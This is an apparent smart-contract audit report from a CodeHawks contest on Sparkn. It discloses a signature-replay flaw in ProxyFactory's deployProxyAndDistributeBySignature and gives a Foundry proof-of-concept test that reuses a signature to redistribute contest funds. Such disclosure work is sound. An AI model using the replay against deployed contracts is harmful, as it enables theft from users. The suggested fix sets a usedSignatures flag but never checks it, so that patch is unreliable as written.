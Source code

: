 # Sparkn  - Findings Report

# Table of contents
- ## [Contest Summary](#contest-summary)
- ## [Results Summary](#results-summary)
- ## High Risk Findings
    - ### [H-01. Replay Attack, call can be reused to re-distribute Proxy funds](#H-02)



# <a id='contest-summary'></a>Contest Summary

### Sponsor: CodeFox Inc.

### Dates: Aug 21st, 2023 - Aug 29th, 2023

[See more contest details here](https://www.codehawks.com/contests/cllcnja1h0001lc08z7w0orxx)

# <a id='results-summary'></a>Results Summary

### Number of findings:
   - High: 1


# High Risk Findings

## <a id='H-01'></a>H-01. Replay Attack, call can be reused to re-distribute Proxy funds            

## Summary
Any user at any moment can call `ProxyFactory::deployProxyAndDistributeBySignature` for a contract with same contestId and organizer, but different implementation, executing the call with the original data.
## Vulnerability Details
An organizer creates a contest with an implementation, it all goes correctly and all the business logic ends correctly.
If he decides to create another one with the same contestId but different implementation, anyone at any time can reuse the digest and signature that was used in `ProxyFactory::deployProxyAndDistributeBySignature` to send the prize to the same addresses with the same percentage as before.
``` solidity
    // Paste this to test/integration/ProxyFactoryTest.t.sol
    // And run this: $ forge test --mt test_reDeployProxyAndDistributeBySignature
    function test_reDeployProxyAndDistributeBySignature() setUpContestForJasonAndSentJpycv2Token(TEST_SIGNER) public {
        // Create first contest and distribute tokens by signature
        (bytes32 digest, bytes memory sendingData, bytes memory signature) = createSignatureByASigner(TEST_SIGNER_KEY);
        bytes32 randomId = keccak256(abi.encode("Jason", "001"));

        vm.warp(8.01 days);
        proxyFactory.deployProxyAndDistributeBySignature(
            TEST_SIGNER, randomId, address(distributor), signature, sendingData
        );
        // set up new contest with different implementation
        vm.startPrank(factoryAdmin);
        Distributor newDistributor = new Distributor{salt: digest}(address(proxyFactory), address(stadiumAddress));
        proxyFactory.setContest(TEST_SIGNER, randomId, block.timestamp + 8 days, address(newDistributor));
        vm.stopPrank();
        bytes32 salt = keccak256(abi.encode(TEST_SIGNER, randomId, address(newDistributor)));
        address proxyAddress = proxyFactory.getProxyAddress(salt, address(newDistributor));
        // send tokens to newDistributor based implementation proxy
        vm.startPrank(sponsor);
        MockERC20(jpycv2Address).transfer(proxyAddress, 10000 ether);
        vm.stopPrank();
        vm.warp(16.02 days);
        // reuse the same digest, sending Data and signature
        proxyFactory.deployProxyAndDistributeBySignature(
            TEST_SIGNER, randomId, address(newDistributor), signature, sendingData
        );
    }
```
## Impact
On 'ProxyFactory::deployProxyAndDistributeBySignature' the digest, neither the signature, are saved as used, so it can be reused maliciously in a way that, if in any point some whitelisted tokens are left or deposited, they can be redistributed to the same winners at the previous percentage by any user at any time, not only the organizer.
Someone can be highly motivated to do so if he was previously a winner at the first contest, or by a malicious attacker in order to disrupt the protocol.
## Tools Used
Manual review and Foundry.
## Recommendations
Save digest or signature in a mapping to check if it already has been used.
``` diff
function deployProxyAndDistributeBySignature(
        address organizer,
        bytes32 contestId,
        address implementation,
        bytes calldata signature,
        bytes calldata data
    ) public returns (address) {
+       usedSignatures[signature] = true;
        bytes32 digest = _hashTypedDataV4(keccak256(abi.encode(contestId, data)));
        if (ECDSA.recover(digest, signature) != organizer) revert ProxyFactory__InvalidSignature();
        bytes32 salt = _calculateSalt(organizer, contestId, implementation);
        if (saltToCloseTime[salt] == 0) revert ProxyFactory__ContestIsNotRegistered();
        if (saltToCloseTime[salt] > block.timestamp) revert ProxyFactory__ContestIsNotClosed();
        address proxy = _deployProxy(organizer, contestId, implementation);
        _distribute(proxy, data);
        return proxy;
    }
```
Or have a self-increasing nonce which gets encoded along contestId and data.